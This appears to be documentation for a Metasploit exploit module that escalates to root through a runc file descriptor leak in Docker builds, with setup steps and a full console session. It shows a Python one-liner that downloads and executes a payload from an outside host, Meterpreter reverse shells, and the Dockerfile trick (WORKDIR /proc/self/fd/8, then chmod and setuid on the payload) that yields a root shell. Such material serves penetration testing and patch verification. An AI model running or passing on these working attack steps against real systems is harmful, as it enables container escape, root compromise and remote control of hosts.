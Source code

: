 ## Vulnerable Application

All versions of runc <=1.1.11, as used by containerization technologies such as Docker engine,
and Kubernetes are vulnerable to an arbitrary file write.
Due to a file descriptor leak it is possible to mount the the host file system
with the permissions of runc (typically root).

Successfully tested on Ubuntu 22.04 with runc 1.1.7-0ubuntu1~22.04.1 using Docker build.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial session
1. Do: `use exploit/linux/local/runc_cwd_priv_esc`
1. Do: `set session [session]`
1. Do: `run`
1. You should get a root shell.

## Options

## DOCKERIMAGE

A docker image to use, docker image must have linux commands
avaialble (`scratch` won't work). Defaults to `alpine:latest`

## FILEDESCRIPTOR

The file descriptor to use, typically `7` or `8`. Defaults to `8`

### runc 1.1.7-0ubuntu1~22.04.1 on Ubuntu 22.04

Get an initial shell

```
user@userubuntu22:~/metasploit-framework$ ./msfconsole -qr runc.rb
[*] Processing runc.rb for ERB directives.
resource (runc.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (runc.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (runc.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Server started.
[*] Run the following command on the target machine:
python -c "import sys;import ssl;u=__import__('urllib'+{2:'',3:'.request'}[sys.version_info[0]],fromlist=('urlopen',));r=u.urlopen('http://1.1.1.1:8080/v5IbTIj', context=ssl._create_unverified_context());exec(r.read());"
[*] 1.1.1.1   web_delivery - Delivering Payload (436 bytes)
[*] Sending stage (24768 bytes) to 1.1.1.1
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 1.1.1.1:45198) at 2024-02-01 18:14:09 +0000
msf6 exploit(linux/local/runc_cwd_priv_esc) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: user
meterpreter > sysinfo
Computer        : userubuntu22
OS              : Linux 5.19.0-43-generic #44~22.04.1-Ubuntu SMP PREEMPT_DYNAMIC Mon May 22 13:39:36 UTC 2
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
resource (runc.rb)> use exploit/linux/local/runc_cwd_priv_esc
[*] Started reverse TCP handler on 1.1.1.1:4444
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
resource (runc.rb)> set lhost 1.1.1.1
[*] Using URL: http://1.1.1.1:8080/v5IbTIj
lhost => 1.1.1.1
resource (runc.rb)> set session 1
session => 1
resource (runc.rb)> set lport 9876
lport => 9876
msf6 exploit(linux/local/runc_cwd_priv_esc) > set verbose true
verbose => true
msf6 exploit(linux/local/runc_cwd_priv_esc) > run

[*] Started reverse TCP handler on 1.1.1.1:9876
[!] SESSION may not be compatible with this module:
[!]  * incompatible session architecture: python
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Vulnerable runc version 1.1.7-0ubuntu1~22.04.1 detected
[*] Creating directory /tmp/.HdUvYm3
[*] /tmp/.HdUvYm3 created
[*] Uploading Payload to /tmp/.HdUvYm3/.OiGEedVKP
[*] Uploading Dockerfile to /tmp/.HdUvYm3/Dockerfile
[*] Building from Dockerfile to set our payload permissions
[*] DEPRECATED: The legacy builder is deprecated and will be removed in a future release.
[*]             Install the buildx component to build images with BuildKit:
[*]             https://docs.docker.com/go/buildx/
[*]
[*] Sending build context to Docker daemon  3.072kB
[*] Step 1/3 : FROM alpine:latest
[*]  ---> 05455a08881e
[*] Step 2/3 : WORKDIR /proc/self/fd/8
[*]  ---> Using cache
[*]  ---> f73c936557f3
[*] Step 3/3 : RUN cd ../../../../../../../../ && chmod -R 4777 tmp/.HdUvYm3 && chown -R root:root tmp/.HdUvYm3 && chmod u+s tmp/.HdUvYm3/.OiGEedVKP
[*]  ---> Running in c4afc663c2bc
[*] Removing intermediate container c4afc663c2bc
[*]  ---> b490ec709420
[*] Successfully built b490ec709420
[*] Executing payload
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 1.1.1.1
[+] Deleted /tmp/.HdUvYm3
[*] Meterpreter session 2 opened (1.1.1.1:9876 -> 1.1.1.1:43876) at 2024-02-01 18:15:04 +0000
[-] run: Interrupted
msf6 exploit(linux/local/runc_cwd_priv_esc) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: root
```
